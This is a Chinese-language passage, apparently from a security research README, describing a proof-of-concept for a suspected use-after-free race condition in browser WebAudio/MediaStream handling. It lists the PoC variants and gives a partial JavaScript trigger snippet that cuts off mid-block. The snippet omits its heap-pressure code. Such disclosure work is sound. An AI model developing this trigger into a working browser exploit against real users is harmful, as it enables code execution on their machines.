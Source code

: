 我们的安全团队开发了一个概念验证(PoC)来展示这个漏洞。这个PoC包含以下组件：

1. 创建和操作WebAudio节点的基本HTML页面
2. 尝试触发竞争条件的JavaScript代码
3. 内存损坏检测机制，用于验证利用是否成功
4. 潜在代码执行能力的演示

PoC的工作原理是：

1. 创建AudioContext和MediaStreamAudioDestinationNode
2. 设置多个振荡器和增益节点来创建复杂的音频图连接
3. 使用Web Workers创建并行执行上下文
4. 快速连接和断开节点，同时操作MediaStream轨道
5. 使用包含已知模式的类型化数组监控内存是否有损坏迹象
6. 尝试通过在成功时启动计算器应用程序来演示代码执行

我们开发了几个不同复杂度的PoC版本：

- [基础检测PoC](poc/index.html) - 简单检测漏洞存在
- [高级检测PoC](poc/advanced_poc.html) - 复杂的内存分析和报告功能
- [漏洞利用演示PoC](poc/exploit_poc.html) - 计算器启动演示
- [技术文档](poc/TECHNICAL_ANALYSIS.md) - 详细的漏洞分析
- [测试服务器](poc/serve.py) - 用于本地PoC测试的Python服务器

有关PoC实现的完整概述，请参阅[PoC文档](poc/README.md)。

我们基础PoC的技术结构如下：

```javascript
// 创建音频上下文和节点
const audioContext = new AudioContext();
const destination = audioContext.createMediaStreamDestination();
const oscillator = audioContext.createOscillator();
const gain = audioContext.createGain();

// 连接节点创建音频图
oscillator.connect(gain);
gain.connect(destination);
oscillator.start();

// 创建worker用于并行执行
const worker = new Worker(URL.createObjectURL(new Blob([`
  onmessage = function(e) {
    postMessage('acknowledged');
  };
`])));

// 尝试触发竞争条件
setTimeout(() => {
  // 断开节点
  oscillator.disconnect(gain);
  gain.disconnect(destination);

  // 操作MediaStream轨道
  try {
    const track = destination.stream.getAudioTracks()[0];
    track.stop();

    // 强制垃圾回收（不可靠）
    // [... 堆压力代码 ...]

    // 访问可能已释放的对象
    destination.stream.getTracks().forEach(track => {
      track.enabled = false;
    });
  } catch (e) {
    console.log("异常可能表明UAF已触发: " + e.message);
```